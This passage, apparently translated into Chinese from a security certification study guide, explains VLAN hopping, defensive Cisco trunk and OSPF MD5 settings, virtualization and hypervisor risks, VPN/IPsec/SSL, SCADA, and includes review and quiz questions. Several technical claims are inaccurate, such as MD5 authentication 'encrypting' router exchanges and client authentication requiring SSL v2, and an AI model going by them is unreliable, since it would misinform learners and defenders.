| 成本：带有 `VLAN` 的交换网络比路由网络成本低，因为路由器比交换机贵得多。 | 基于子网的 `VLAN` 在流量通过第三方 `ATM` 云或互联网时，会使流量面临嗅探和中间人攻击的风险。 |

如你所见，部署 `VLAN` 的益处可能大于缺点，但仍有一些你应该注意的 `VLAN` 攻击。特别是，你需要小心 `VLAN` 跳跃（`VLAN hopping`）。默认情况下，交换机端口是访问端口，这意味着它只能是一个 `VLAN` 的成员。配置为携带多个 `VLAN` 流量的端口被称为中继端口（`trunk ports`），用于在交换机和路由器之间传输流量。`VLAN` 跳跃攻击的目标是接收来自黑客端口所属的 `VLAN` 的流量。


-   **交换机欺骗**：交换机端口可以设置为使用名为动态中继协议（`DTP`）的协议来协商中继链路的形成。如果让访问端口继续使用 `DTP`，黑客有可能将其接口伪装成交换机并使用 `DTP` 创建中继链路。如果发生这种情况，黑客可以捕获来自所有 `VLAN` 的流量。这一过程如图 6-12 所示。为了防止这种情况，你应该在所有交换机端口上禁用 `DTP`。

### 图 6-12. 交换机欺骗



交换机端口可以配置为以下设置：

-   中继（`trunk`）：强制为中继端口
-   访问（`access`）：强制为访问端口
-   动态期望（`dynamic desirable`）：主动尝试成为中继端口
-   动态自动（`dynamic auto`）：被动尝试成为中继端口

如果交换机端口被设置为动态期望或动态自动，黑客就可以连接交换机，并将其端口设置为动态期望，从而形成中继。所有交换机端口都应硬编码为中继或访问。

你可以使用以下命令集将 `Cisco` 路由器上的端口配置为中继：

```
Switch(config)# interface FastEthernet 0/1
Switch(config-if)# switchport mode trunk
```

要将端口硬编码为不会变为中继的访问端口，使用以下命令集：

```
Switch(config)# interface FastEthernet 0/1
Switch(config-if)# switchport mode access
```

-   **双标记**：中继链路使用标记来标识帧所属的 `VLAN`。另一种类型的端口攻击是 `VLAN` 跳跃。它可以通过称为双标记的过程来实现。在这种攻击中，黑客创建一个带有两个标签的数据包。第一个标签在遇到第一个交换机端口时会被移除，但第二个标签仍然保留，允许帧跳转到另一个 `VLAN`。这一过程如图 6-13 所示。在此示例中，公司 `A` 交换机和公司 `B` 交换机之间的原生 `VLAN` 号已从默认的 `1` 更改为 `10`。

### 图 6-13. 双标记



为了防止这种情况，你需要执行以下操作：

-   通过指定不同的原生 `VLAN` 号，将原生 `VLAN`（默认 `VLAN` 或 `VLAN 1`）指定为所有中继端口的未使用 `VLAN ID`。确保链路两端匹配。要将原生 `VLAN` 从 `1` 更改为 `99`，请在中继接口上执行此命令：

```
Switch(config-if)# switchport trunk native vlan 99
```

如今大多数网络使用动态路由协议来保持路由器的路由表实时更新。正如黑客可以引入交换机来捕获所有 `VLAN` 流量一样，我们也可以引入路由器来尝试收集路由表信息，并在某些情况下编辑路由信息，以有利于其攻击的方式对流量进行路由。

路由协议提供了一种配置路由器的方法，通过交换路由信息来在彼此之间进行身份验证。在大多数情况下，你可以在路由器之间配置简单的密码，或者使用 `MD5` 身份验证。在这种情况下，你应该尽可能使用 `MD5` 身份验证，因为它可以加密路由器之间的交换，而简单密码验证则不会。以下是如何使用开放最短路径优先（`OSPF`）路由协议，通过 `MD5` 密钥 `1` 和密码 `MYPASS` 在路由器 `A` 和名为 `B` 的路由器之间进行配置：

```
A(config)# interface fastEthernet 0/0
A(config-if)# ospf authentication message-digest key 1 md5 MYPASS
A(config-if)# ospf authentication message-digest

B(config)# interface fastEthernet 0/0
B(config-if)# ospf authentication message-digest key 1 md5 MYPASS
B(config-if)# ospf authentication message-digest
```

你在接口上输入这些命令，并且需要确保连接两端的这两个值是相同的。

之后，你按照如下方式告诉 `OSPF` 在 `OSPF` 路由过程中使用 `MD5` 身份验证，在两个路由器上均输入命令：

```
A(config)# router ospf 1
A(config-router)# area 0 authentication message-digest

B(config)# router ospf 1
B(config-router)# area 0 authentication message-digest
```


## 网络设备

其他网络设备也存在漏洞。令人惊讶的是，许多漏洞存在于专门用于保护网络的设备中，例如入侵检测和防御系统。其中许多设备基于 `Linux` 系统，但其应用程序的安全性不高。测试表明，以下漏洞具有某种普遍性：

- 缺乏针对暴力破解密码防护保护的接口
- 允许会话劫持的跨站脚本漏洞
- 向未身份验证的用户泄露的产品型号和版本信息
- 跨站请求伪造漏洞，允许攻击者通过欺骗已身份验证的管理员访问恶意网站来访问管理功能
- 隐藏的后门

由于这些原因，在选择和维护此类设备时必须格外小心。你不能假设它们是安全的，因为它们是安全设备。

## 虚拟基础设施

在当今的网络中，虚拟化设备已变得十分常见。虚拟化一个设备似乎增加了一层安全，但主机、虚拟网络以及用于管理虚拟化的接口存在许多漏洞。

## 虚拟主机

当客机系统被虚拟化时，它们可能会共享一台共同主机。当这种情况发生且共享主机的系统具有不同的安全需求时，就会出现安全问题。以下是其中一些问题以及可以避免这些问题的措施：

**虚拟机逃逸（VM escape）**：在虚拟机逃逸攻击中，攻击者“突破”虚拟机通常的隔离状态，并直接与虚拟机程序交互。由于虚拟机通常共享相同的物理资源，如果攻击者能够发现其虚拟资源是如何映射到物理资源的，他将能够直接对真实的物理资源进行攻击。如果他能够以修改其虚拟内存来利用映射到每个虚拟机的物理资源，攻击者就可以影响所有虚拟机、虚拟机程序以及该机器上的其他程序。图 6-14 显示了虚拟资源与物理资源之间的关系，以及攻击者如何攻击虚拟机程序和其他虚拟机。为了缓解虚拟机逃逸攻击，虚拟服务器应与其网络网段中的其他虚拟服务器位于同一个物理主机上。

图 6-14. 虚拟机逃逸



**数据残留（Data remnants）**：由于云维护功能无意中复制到虚拟机中的敏感数据，或在终止的虚拟机中留下的残留数据需要保护。此外，如果移动了数据，可能会留下残留数据，供未经授权的用户访问。旧位置中的任何剩余数据都应粉碎，但根据安全实践，数据残留可能仍然存在。这对于私有云中的机密数据和公共云中的任何敏感数据可能是一个问题。

商业产品可以处理数据残留。例如，`Blanco` 是一种从 `PC`、服务器、数据中心设备和智能手机中永久删除数据的产品。通过 `Blanco` 删除的数据无法用任何现有技术恢复。`Blanco` 还会创建一个报告，为每次删除定价以供合规目的。

## 虚拟网络

虚拟基础设施通常包含连接到网络中物理交换机的虚拟交换机。你应该确保从物理网络到虚拟网络的流量受到严格控制。记住，虚拟机运行的操作系统与物理机上的操作系统面临相同的攻击漏洞。此外，如果可以访问虚拟网络，也可以进行相同类型的网络攻击和扫描。

## 管理接口

虚拟机程序的管理接口存在某些漏洞。这里的危险在于，该接口通常提供对整个虚拟基础设施的访问。以下是通过此接口进行的一些攻击：


- **权限提升（Privilege elevation）**：在某些情况下，虚拟环境中权限提升或升级的危险可能等于或大于物理环境中的危险。当虚拟机程序执行处理客操作系统与硬件之间调用的任务时，引入这些调用的任何漏洞都可能允许攻击者提升权限。最近 `ESX`、`Workstation`、`Fusion` 和 `View` 产品中的漏洞导致了权限提升。防止权限提升的关键是确保所有虚拟化产品都有最新的更新
- **实时迁移（Live migration）**：虚拟化环境的优势之一是在需要将虚拟机从一个主机迁移到另一个主机，这被称为实时迁移。当虚拟机位于边界网络上时，攻击者可以利用网络漏洞对虚拟机进行未经授权的访问。如果可以访问虚拟机镜像，攻击者可以在镜像中植入恶意代码，对虚拟机传输的数据中心实施攻击。通常迁移使用的协议没有加密，导致虚拟机在传输过程中可能发生中间人攻击，如图 6-15 所示。防止中间人攻击的关键是对存储位置的镜像进行加密。

# 图 6-15. 中间人攻击



## 单个物理主机托管多个公司虚拟机的相关漏洞

在某些虚拟化部署中，单个物理主机托管多个组织的虚拟机。所有托管在单个物理计算机上的虚拟机必须共享该物理计算机的资源。如果物理主机崩溃或被破坏，所有在该物理主机上有虚拟机的组织都会受到影响。用户对虚拟机的访问应该经过正确的配置、管理和审计。必须在每个虚拟机上实施适当的安全控制，包括防病毒软件、反恶意软件、`ACL` 和审计，以确保每个虚拟机都得到良好的保护。

假设配置的资源专供单一公司使用，按需配置的主要漏洞是专有数据的痕迹，这些痕迹可能会留在虚拟机上，并可能被利用。

让我们来看一个例子。假设某安全架构师寻求将公司服务器资源外包给商业云服务提供商。所考虑的提供商在数据中心物理访问控制方面声誉不佳，并且是社会工程学攻击的受害者。该服务提供商经常将多个客户端的虚拟机分配到同一个物理资源。在进行最终评估时，安全架构师应该考虑恶意用户通过获得对虚拟机管理器平台的本地访问来获取专有信息的可能性。

## 与托管多个公司虚拟机的单一平台相关的漏洞

在某些虚拟化部署中，单一平台托管多个组织的虚拟机。如果所有托管虚拟机的服务器都使用相同的平台，那么一旦平台被发现，攻击者将发现更容易攻击其他主机服务器。例如，如果所有物理服务器都使用 `VMware` 来托管虚拟机，那么该平台的任何已识别漏洞都可以用于所有主机计算机。其他需要考虑的风险还包括平台配置错误、职责分离以及在网络接口上应用安全策略。

如果管理员等待将公司的 Web 服务器、应用服务器和数据库服务器虚拟化，则应采取以下措施来保护虚拟主机安全：仅通过安全管理接口访问主机，并限制对主机控制台的物理和网络访问。

## 移动设备

今天几乎每个人都拥有移动设备。移动设备的普及为安全专业人员带来了日益增加的安全问题。移动设备的使用不断增加，加上许多设备使用安全性低或没有安全的公共网络进行连接，这为安全专业人员创造了独特的挑战。

教育用户了解与移动设备相关的风险，并确保他们实施适当的安全措施，可以帮助防止与这些设备相关的威胁。应提供移动设备的一些指南包括实施设备锁 `PIN` 码、使用设备加密、实施 `GPS` 定位以及实施远程清除。此外，还应警告用户不要在确保应用程序来自可靠来源的情况下下载应用。近年来，移动设备管理 (`MDM`) 和移动应用程序管理 (`MAM`) 系统在企业中变得流行。它们的实施目的是确保组织在这些设备连接到企业时，能够控制移动设备的设置、应用程序和其他参数。

向组织网络引入个人移动设备（智能手机和平板电脑）带来的威胁包括：

- 不安全的 Web 浏览
- 不安全的 `Wi-Fi` 连接
- 持有公司数据的丢失或被盗设备
- 损坏的应用下载和安装
- 缺少安全补丁
- 个人设备的不断升级
- 使用位置服务

虽然存储在个人设备上最常见的公司信息是公司电子邮件和公司联系信息，但值得注意的是，几乎一半的此类设备还包含客户数据、网络登录凭据以及通过应用程序访问的公司数据，这令人担忧。

为了解决这些问题并满足引入和使用个人设备日益增长的需求，许多组织正在创建自备设备办公 (`BYOD`) 策略。作为安全专业人员，在支持 `BYOD` 倡议时，你应该考虑到，你可能对用户疏忽大意的恐惧比对黑客的恐惧更多。他们不仅在维护设备安全更新和补丁方面不那么努力，而且购买新设备的频率和换衣服一样频繁。这些因素使得控制允许这些设备运行的网络安全性变得非常困难。

集中式移动设备管理工具正成为解决组织问题和个人设备增长最快的解决方案。某些解决方案利用消息服务器的管理功能，另一些则是可以管理多个品牌设备的第三方工具。`Cisco` 的 `Systems Manager` 就是一个与 `Cisco Meraki` 云服务集成的示例。`iOS` 设备的另一个示例是 `Apple Configurator`。实施此类系统的挑战之一是并非所有个人设备都支持原生加密和/或管理过程。

通常，集中式移动设备管理工具对公司发放的设备和个人移动设备的处理方式不同。对于公司的设备，客户端应用程序通常管理整个设备的配置和安全性。如果该设备是通过 `BYOD` 倡议允许的个人设备，则应用程序通常只管理自身及其数据的配置和安全性。应用程序及其数据与其他应用程序和其他数据进行箱化。结果是，如果设备被盗，组织的数据将得到保护，同时用户的隐私也得到了保留。

## 互联网络

虚拟专用网络 (`VPN`) 通过创建一个隧道允许外部设备访问内部网络，通过 `VPN` 隧道的数据是加密并受保护的。图 6-16 显示了 `VPN` 的示例。在 `VPN` 部署中，只有拥有 `VPN` 客户端的计算机才能通过 `VPN` 集中器连接内部资源。

`VPN` 连接使用不可信的载体网络，但通过强身份验证协议和加密机制提供信息保护。虽然我们通常将最不可信的网络——互联网作为经典示例，且大多数 `VPN` 经互联网传输，但在需要保护内部流量时，`VPN` 也可以用于内部网络。

当组织进行合并、收购或拆分时，必须考虑企业设计。在合并或收购的情况下，每个独立的组织都有自己的资源、基础设施和模型。作为安全分析师，在决定如何合并它们之前，彻底分析两个组织的结构是非常重要的。对于组织结构，还需要额外的考虑。

当外包跨越边界时，会产生额外的复杂性。某些国家的法律比其他国家松散。取决于数据的来源和存储位置，可能需要考虑多个国家或监管机构的法律。如果一个国家的法律过于松散，组织可能希望重新考虑与该国家的公司开展业务。

最后，必须考虑组织内部的互连并对其进行妥善保护。这是通过实施正确的网络分段来实现的，将在第 12 章“安全架构与实施补偿控制”中涵盖。

## 虚拟专用网络

虚拟专用网络 (`VPN`) 通过创建一个加密受保护的隧道允许外部设备访问内部网络。图 6-16 显示了 `VPN` 的示例。在 `VPN` 部署中，只有拥有 `VPN` 客户端并能够通过 `VPN` 集中器连接内部资源的计算机。

`VPN` 连接使用不可信的运营商网络，但通过强身份验证协议和加密机制提供信息保护。虽然我们通常将最不可信的网络——互联网作为经典示例，且大多数 `VPN` 经互联网传输，但在需要保护流量时，`VPN` 也可以用于内部网络。

使用多种远程访问或线路协议（隧道协议）创建 `VPN` 连接，包括：

- **点对点隧道协议 (PPTP)**：`PPTP` 是一种基于 `PPP` 的微软协议。它使用内置的微软点对点加密并可以使用多种身份验证方法，包括 `CHAP`、`MS-CHAP` 和 `EAP-TLS`。
- **链路隧道协议 (L2TP)**：`L2TP` 是一种较新的运行在 `OSI` 模型第 2 层的协议。像 `PPTP` 一样，`L2TP` 可以使用各种身份验证机制；但是 `L2TP` 不提供加密。它通常与 `IPsec` 使用，`IPsec` 是一种非常强大的加密机制。

使用 `PPTP` 时，加密已包含，剩下的选择是身份验证协议。

使用 `L2TP` 时，如果需要，必须添加加密和身份验证协议。`IPsec` 可以提供加密、数据完整性和基于系统的身份验证，使其成为一个灵活且强大的选项。通过实施 `IPsec` 套件的某些部分，你可以使用这些功能也可以不使用。

`IPsec` 实际上是一个协议套件，就像 `TCP/IP` 一样。它包括以下组件：

- **认证头 (AH)**：`AH` 提供完整性、数据源身份验证以及防止重放攻击的保护。
- **封装安全负载 (ESP)**：`ESP` 提供 `AH` 的所有功能，还提供了数据机密性。
- **互联网安全关联和密钥管理协议 (ISAKMP)**：`ISAKMP` 负责会话安全关联的创建和密钥交换。
- **互联网密钥交换 (IKE)**：有时也称为 `IP` 密钥交换，`IKE` 提供了用于创建密钥的身份验证材料，这些密钥在 `peer` 身份验证期间交换。这最初建议由一个名为 `Oakley` 的协议执行，它依赖于 `Diffie-Hellman` 算法，但 `Oakley` 已被 `IKE` 取代。

`IPsec` 是一个框架，这意味着它没有指定与其配合使用的许多组件。这些组件必须在配置中被识别，并且它们必须匹配，两端才能成功创建所需的安全关联（该关联在传输任何数据之前必须就绪）。必须做出以下选择：


- 加密算法，用于加密数据
- 哈希算法，用于确保数据未被更改并验证其来源
- 模式，可以是隧道模式（`tunnel`）或传输模式（`transport`）
- 协议，可以是 `AH`、`ESP` 或两者都有

所有这些设置在连接的两端必须匹配。系统无法即时选择它们。它们必须预先正确配置以匹配。

在隧道模式下配置时，隧道仅存在于两个网关之间，但所有通过隧道的流量都受到保护。这通常是为了保护两个办公室之间的所有流量。安全关联 (`SA`) 位于两个办公室网关之间。这种连接被称为站点到站点 `VPN` (`site-to-site VPN`)。

两个端点之间的 `SA` 由安全参数索引 (`SPI`) 和 `AH`/`ESP` 组合组成。`SPI` 是包含在每个 `IPsec` 头部中的值，设备维护每个 `SA`（可能同时发生多个）与用于每个 `SA` 的所用安全参数（也称为转换集，`transform set`）之间的关系。

每个会话都有唯一的会话值，这有助于防止以下情况：

- 反向工程
- 内容修改
- 因子分解攻击（攻击者尝试所有与算法匹配的数字组合来解密密文）

关于连接身份验证，密钥是预共享的或从公密钥基础设施 (`PKI`) 衍生。`PKI` 创建与使用证书的单个用户和计算机关联的公私密钥对。在这种情况下，这些密钥对用于替代预共享密钥。也可以使用并非源自 `PKI` 的证书。

在传输模式下，`SA` 位于两个站之间，或一个站与网关或远程访问服务器之间。在这种模式下，隧道从计算机到计算机或从计算机到网关延伸。这种连接被用于远程访问 `VPN`。这只是 `IPsec` 的应用之一。`IPsec` 还用于其他应用，例如用于 `3G` 手机网络设备的通用分组无线电 (`GPRS`) `VPN` 解决方案。

当通信是从网关到网关或主机到网关时，可以使用传输模式或隧道模式。如果通信是计算机到计算机，则需要传输模式。当网关到主机使用传输模式时，网关必须作为主机运行。

针对 `IPsec VPN` 最有效的攻击是中间人攻击。在这种攻击中，攻击者继续通过安全协商阶段，直到密钥协商阶段，此时受害者暴露其身份。在实施良好的系统中，当攻击者无法同样证明自己的身份时，攻击将失败。

安全套接层 (`SSL`) 是创建到服务器安全连接的另一种选择。它工作在 `OSI` 模型的应用层，主要用于保护 `HTTP` 流量或 Web 服务器。它的功能嵌入在大多数浏览器中，用户通常不需要用户执行任何操作。它被广泛用于保护互联网交易。`SSL` 可以通过两种方式实现：


- **`SSL` 门户 `VPN`**：在这种情况下，用户拥有一个 `SSL` 连接来访问 Web 服务器上的多个服务。通过身份验证后，用户将获得一个作为通往其他服务门户的页面。
- **`SSL` 隧道 `VPN`**：用户可以使用 `SSL` 隧道访问非 Web 服务器的服务器上的服务。该解决方案使用自定义编程，通过 Web 浏览器访问非 Web 服务。

传输层安全协议 (`TLS`) 和 `SSL` 非常相似，但并不相同。`TLS 1.0` 基于 `SSL 3.0` 规范，但两者在操作上是不兼容的。两者都在传输层之上实现了机密性、身份验证和完整性。服务器始终经过身份验证，客户端可选地也可以进行身份验证。客户端身份验证必须使用 `SSL v2`。在配置 `SSL` 时，必须指定会话密钥长度。选项是 40 位和 128 位。使用自签名证书身份验证服务器通常用于文件传输。表 6 列出了一些优点和缺点。


## 表 6-3. `SSL` 的优缺点

| 优点 | 缺点 |
| :--- | :--- |
| 数据加密。 | 加密和解密需要消耗大量资源。 |
| 所有浏览器都支持 `SSL`。 | 关键组件未加密。 |
| 用户可以轻松识别服务器。 | |

放置 `SSL` 网关时，必须考虑权衡：它越靠近网络边缘，性能下降越小。这取决于你对内部网络的信任程度。

## 工业控制系统/`SCADA` 设备

工业控制系统 (`ICS`) 是一个通用术语，涵盖了用于工业生产的多种控制系统。最广泛的是数据控制数据采集 (`SCADA`)。`SCADA` 是一种通过通信信道运行并提供设备控制的系统。

### `SCADA` 包含以下组件：


- 传感器：传感器通常具有数字或模拟 `I/O`，且不易于远距离通信。
- 远程终端单元 (`RTU`)：`RTU` 连接传感器并将传感器数据转换为数字数据，包括遥测硬件。
- 可编程逻辑控制器 (`PLC`)：`PLC` 连接传感器并将传感器数据转换为数字数据；它们不包括遥测硬件。
- 遥测系统：此类系统将 `RTU` 和 `PLC` 连接到控制中心和企业。
- 人机界面：此类界面向操作员展示数据。

这些系统应与其他网络进行安全隔离。`Stuxnet` 病毒袭击了用于工业过程控制和监控的 `SCADA`。`SCADA` 组件是网络攻击的特权目标。通过使用网络工具，可以破坏工业过程。这是对纳坦兹核电厂攻击的想法，旨在干扰伊朗核计划。

考虑到基于 `SCADA` 的系统的，必须对这些系统的物理访问进行严格控制。应将 `IT` 安全与物理访问控制（如门禁系统和视频监控）相结合。此外，解决方案应与现有的信息安全工具（如日志管理和 `IPS`/`IDS`）集成。美国标准与技术研究院 (`NIST`) 的一份有用出版物特别出版 `800-82` 提供了 `ICS` 安全建议。这些新兴系统的风险包括：

- 对系统的更改可能会导致保修失效。
- 产品可能仓促上市，安全只是事后。
- 投资回报可能需要数十年。
- 监管不足。

## 考试准备任务

正如引言中“考试准备策略”节提到的，你有两种考试准备的选择：本处的练习、第 15 章“最终准备”，以及 `Pearson IT` 认证测试引擎中的模拟考试。

## 复习所有关键主题

回顾本章中最重要的主题，这些主题在页面外边角用“关键主题”（`Key Topics`）图标标记出。表 6-4 列出了这些关键主题及其所在的页码。


表 6-4. 第 6 章关键主题

| 关键主题元素 | 说明 | 页码 |
|---|---|--|
| 章节 | 复习与解释扫描结果 | |
| 章节 | Web 服务器漏洞 | |
| 列表 | 维护钩子防御措施 | |
| 列表 | `CSRF` 防御措施 | |
| 列表 | 会话劫持防御措施 | |
| 列表 | `SQL` 注入防御措施 | |
| 列表 | 整数溢出防御措施 | |
| 列表 | 数据库术语 | |
| 文本 | 端口交换机攻击 | |
| 列表 | `VLAN` 攻击 | |
| 列表 | 网络设备漏洞 | |
| 列表 | 虚拟化攻击 | |
| 列表 | `Hypervisor` 攻击 | |
| 列表 | 移动端漏洞 | |
| 列表 | `IPsec` 设置 | |
| 列表 | `SSL VPN` 类型 | |
| 表 6-3 | `SSL` 的优缺点 | |
| 列表 | `SCADA` 组件 | |

## 定义关键术语

定义本章中的以下关键术语，并对照术语表检查你的答案：

- 插件 (`plug-in`)
- 误报 (`false positive`)
- 异常 (`exception`)
- 安全信息和事件管理系统 (`SIEM`)
- 维护钩子 (`maintenance hook`)
- 检查/使用攻击 (`time-of-check/time-of-use attack`)
- 竞态条件 (`race condition`)
- 不安全的直接对象引用 (`insecure direct object reference`)
- 跨站脚本 (`XSS`)
- 跨站请求伪造 (`CSRF`)
- 点击劫持 (`click-jacking`)
- 会话 `ID` (`session ID`)
- 输入验证 (`input validation`)
- `SQL` 注入 (`SQL injection`)
- `OWASP` 攻击代理 (`OWASP Zed Attack Proxy`)
- 缓冲区溢出 (`buffer overflow`)
- 整数溢出 (`integer overflow`)
- 推断 (`inference`)
- 聚合 (`aggregation`)
- 污染 (`contamination`)
- 数据挖掘仓库 (`data mining warehouse`)
- 端点 (`endpoint`)
- `MAC` 溢出 (`MAC overflow`)
- `ARP` 毒化 (`ARP poisoning`)
- 动态 `ARP` 检查 (`DAI`)
- `DHCP` 侦听 (`DHCP snooping`)
- `VLAN`
- 交换机欺骗 (`switch spoofing`)
- 双重标记 (`double tagging`)
- 虚拟机逃逸 (`VM escape`)
- 数据残留 (`data remnant`)
- 权限提升 (`privilege elevation`)
- 虚拟机实/热迁移 (`live VM migration`)
- 中间人攻击 (`man-in-the-middle attack`)
- 虚拟专用网络 (`VPN`)
- 点对点隧道协议 (`PPTP`)
- 二层隧道协议 (`L2TP`)
- `IPsec`
- 身份验证头 (`AH`)
- 封装安全载荷 (`ESP`)
- 互联网安全关联和密钥管理协议 (`ISAKMP`)
- 互联网密钥交换 (`IKE`)
- 传输模式 (`transport mode`)
- 隧道模式 (`tunnel mode`)
- 安全套接层 (`SSL`)
- `SSL` 门户 `VPN`
- `SSL` 隧道 `VPN`
- 传输层安全 (`TLS`)
- 工业控制系统 (`ICS`)
- 监视控制与数据采集系统 (`SCADA`)
- `SCADA` 设备
- 传感器 (`sensor`)
- 远程终端单元 (`RTU`)
- 可编程逻辑控制器 (`PLC`)

## 复习题

1. 当攻击者找到网站漏洞并向 Web 应用程序中注入恶意代码时，发生了以下哪种攻击？
   a. 间接对象引用
   b. `XSS`
   c. 缓冲区溢出
   d. `SQL` 注入

2. 下列哪种攻击会导致用户在当前已身份的 Web 应用程序中执行非预期的操作？
   a. `CSRF`
   b. 间接对象引用
   c. 缓冲区溢出
   d. `SQL` 注入

3. 在哪种攻击中，黑客在看似真实的页面上方构建一个透明的页面或框架，诱导用户点击某些内容？
   a. `CSRF`
   b. 点击劫持
   c. 缓冲区溢出
   d. `SQL` 注入

4. 下列漏洞无法通过使用输入验证防止？
   a. `XSS`
   b. 维护钩子
   c. 缓冲区溢出
   d. `SQL` 注入

5. 当提交的数据量大于为该响应句柄分配的内存空间时，发生了哪种情况？
   a. `XSS`
   b. 维护钩子
   c. 缓冲区溢出
   d. `SQL` 注入

6. 当数学运算尝试创建一个超出可用范围的数值时，会发生哪种情况？
   a. `XSS`
   b. 维护钩子
   c. 整数溢出
   d. `SQL` 注入

7. 当某人访问某一层级的信息并推断出另一级别的信息时，发生了哪种情况？
   a. 聚合
   b. 推断
   c. 污染
   d. 多重实例化

8. 下列哪项定义为：在某一敏感级别汇集或编译信息单元，并导致数据整体的敏感级别高于单个组件？
   a. 聚合
   b. 推断
   c. 污染
   d. 多重实例化

9. 下列哪项是指将一个敏感级别或知情级别的数据另一个级别的数据混杂或混合？
   a. 聚合
   b. 推断
   c. 污染
   d. 多重实例化

10. 下列哪项是交换机攻击？
    a. `MAC` 溢出
    b. `XSS`
    c. `CSRF`
    d. 推断

# 第 7 章 识别事件影响和构建取证工具包

本章涵盖了以下主题：

3.0 网络事件响应

3.1 在给定场景下，区分威胁数据或行为以确定事件的影响。

- **威胁分类：** 涵盖了已知威胁与未知威胁、零日攻击和高级持续性威胁 (`APT`)。
- **影响事件严重程度和优先排序的因素：** 描述了停机时间、恢复时间和系统关键性。

3.2 在给定场景下，准备工具包并使用适当工具。

- **取证工具包 (`Forensics Kit`)：** 列出了调查中常用的工具。
- **数字调查套件 (`Forensic Investigation Suite`)：** 描述了调查的内容。

当安全事件发生时，安全分析师必须快速评估事件。每个事件必须分配一个严重程度以确定处理优先级。

## 你掌握了吗？测验

“你掌握了吗？”测验可以让你评估是否应该阅读整章内容。表 7-1 列出了本章的主要标题以及相应的“你掌握了吗？”测验题。答案见附录 A，“你掌握了吗？”测验与复习题”。

表 7-1. “你掌握了吗？”基础主题映射

| 基础主题 | 题号 |
|---|---|
| 威胁分类 | 1, 4 |
| 影响事件严重程度和优先排序 | 2 |
| 取证工具包 | 3, 5 |
| 数字调查套件 | 6 |

1. 组织正在审查杀毒软件。其中一种产品使用签名来识别威胁。哪种类型的威胁可以通过杀毒引擎或通过域名信誉黑名单轻松识别？
   a. 插件
   b. 零日
   c. 已知
   d. 未知

2. 在制定业务连续性计划 (`BCP`) 时，组织正在确定系统损失对业务造成损害之前可以承受的时间。下列哪项是组织可以承受单个资源或功能故障的最大时间？
   a. `RPO`
   b. `MTTR`
   c. `MTD`
   d. `RTO`

3. 你拥有一个硬盘副本，并作为安全事件响应的一部分对其进行分析。你担心自己可能会损坏硬盘的完整性。下列哪种工具允许对数据存储设备进行只读访问且不会损害数据的完整性？
   a. 写保护器
   b. 驱动器适配器
   c. 维护钩子
   d. 完整性设备

4. 组织遭受了一系列入侵，这些入侵似乎离敏感服务器越来越近。下列哪项是针对特定实体并持续长时间实施的黑客过程？
   a. 零日攻击
   b. `APT`
   c. `MTT`
   d. `TOR`

5. 用户报告某个敏感文件似乎被未经授权访问的人更改了。该文件不仅被更改，还丢失了整个章节。下列哪项指的是数据的正确性、完整性和健全性？
   a. 机密性
   b. 可用性
   c. 完整性
   d. 关键性

6. 你正在处理一起数字安全事件。你正准备对问题设备的硬盘进行位位的复制，并希望在以后能够证明你所制作的副本与原始文件完全一致，且两份副本都没有经过任何形式的更改。在你的取证调查工具包中，你应该使用哪种工具来提供这种能力？
   a. 镜像工具 (`Imaging utilities`)
   b. 分析工具 (`Analysis utilities`)
   c. 哈希校验工具 (`Hashing utilities`)
   d. 密码学工具 (`Cryptography tools`)

## 基础主题

## 威胁分类

在通过漏洞扫描或告警收集威胁数据后，必须根据事件的广泛程度以及面临风险的数据类型，将其关联到攻击类型，并根据其严重程度和范围进行分类。这有助于优先级排序过程。就像医院的分诊过程一样，事件的处理并不是按照接收或检测到的顺序来处理的；而是首先处理最危险的问题，并且优先级排序是不断进行的。

安全分析师必须对其可能面临的威胁类别有清晰的理解。一旦事件被归入这些分类之一，就会考虑针对该分类的可用选项。

接下来的章节将介绍三种常用的分类方法。

## 已知威胁 vs 未知威胁

在网络安全领域，已知威胁是常识性的威胁，可以通过杀病毒软件和 `IDS` 引擎的特征码或通过域名信誉黑名单被识别。另一方面，未知威胁是潜伏的威胁，它们可能已被识别，但没有可用的特征码。我们面对这些威胁并非完全无为力。许多安全产品尝试通过静态和动态文件分析来定位这些威胁。这可能在沙箱环境中进行，以保护执行分析的系统。

在某些情况下，未知威胁实际上是循环利用的旧威胁。由于安全产品对威胁特征的内存有限，供应商必须选择最新的攻击签名包含在内。因此，新产品中可能缺少旧的攻击签名，这在实际上允许了旧的未知威胁重新进入攻击类别。

## 零日漏洞 (`Zero Day`)

